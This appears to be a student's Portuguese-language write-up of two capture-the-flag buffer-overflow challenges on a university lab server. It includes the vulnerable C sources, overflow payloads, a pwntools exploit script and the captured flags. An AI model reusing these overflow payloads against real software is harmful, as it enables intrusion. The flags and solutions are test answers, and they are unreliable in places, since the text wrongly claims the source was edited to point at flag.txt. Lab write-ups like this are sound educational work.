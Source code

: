# Desafio 1
Reparamos no ficheiro `main.c`
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%28s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```
que o buffer tem tamanho 20 e que a variável mem_file não estava a apontar para o ficheiro que queriamos neste caso `flag.txt`. Então mudamos isso:
```c
char meme_file[8] = "mem.txt\0";  ----->  char meme_file[8] = "flag.txt\0";
```

Agora tendo em conta o guião executamos o seguinte comando `nc ctf-sp.dcc.fc.up.pt 4003` com o intput (`aaaaaaaaaaaaaaaaaaaaflag.txt`) e com isto recebemos uma flag (utilizamos este numero de 20 a's por causa do tamanho do buffer):
```shell
seed@VM:~/.../Semana5-Desafio1$ nc ctf-sp.dcc.fc.up.pt 4003
Try to unlock the flag.
Show me what you got: aaaaaaaaaaaaaaaaaaaaflag.txt
Echo aaaaaaaaaaaaaaaaaaaaflag.txt
I like what you got!
flag{758c0aec778b458b0a5c9de858143154}
```
Esta flag `flag{758c0aec778b458b0a5c9de858143154}` foi a que submetemos.

# Desafio 2
Ora bem, primeiro começamos por aceder o ficheiro `exploit-example.py` 
```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-sp.dcc.fc.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"Tentar nao custa")
r.interactive()
```
e alteramos a seguinte linha:
```python
(...)
    r = remote('ctf-sp.dcc.fc.up.pt', 4003)  -----> r = remote('ctf-sp.dcc.fc.up.pt', 4000)
(...)
```
Fomos ao `main.c` 
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    if(*(int*)val == 0xfefc2223) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```
e reparamos que existe uma variável nova por definida por `char val[4] = "\xef\xbe\xad\xde";`, que supostamente tinha de apontar para `*(int*)val == 0xfefc2223` logo tentamos usar 20 caracteres a's porque o buffer tem tamanho 20, seguido pelo tal endereço no formato `\xfe\xfc\x22\x23` seguido de `flag.txt`. Depois introduzimos esse código no `exploit-example.py` 
```python
(...)
r.sendline(b"aaaaaaaaaaaaaaaaaaaa\xfe\xfc\x22\x23flag.txt")
(...)
```
ao executar o programa, foi nos dito que a flag tinha de ser ao contrário então alteramos isso:
```python
(...)
r.sendline(b"aaaaaaaaaaaaaaaaaaaa\x23\x22\xfc\xfeflag.txt")
(...)
```
I com isso foi nos dada a flag:
```shell
seed@VM:~/.../semana_5_ctf_2$ python3 exploit-example.py
    [+] Opening connection to ctf-sp.dcc.fc.up.pt on port 4000: Done
    [*] Switching to interactive mode
    I like what you got!
    flag{937958bfd906007250cc72326e027841}
    [*] Got EOF while reading in interactive
    $ 
    [*] Interrupted
    [*] Closed connection to ctf-sp.dcc.fc.up.pt port 4000

```
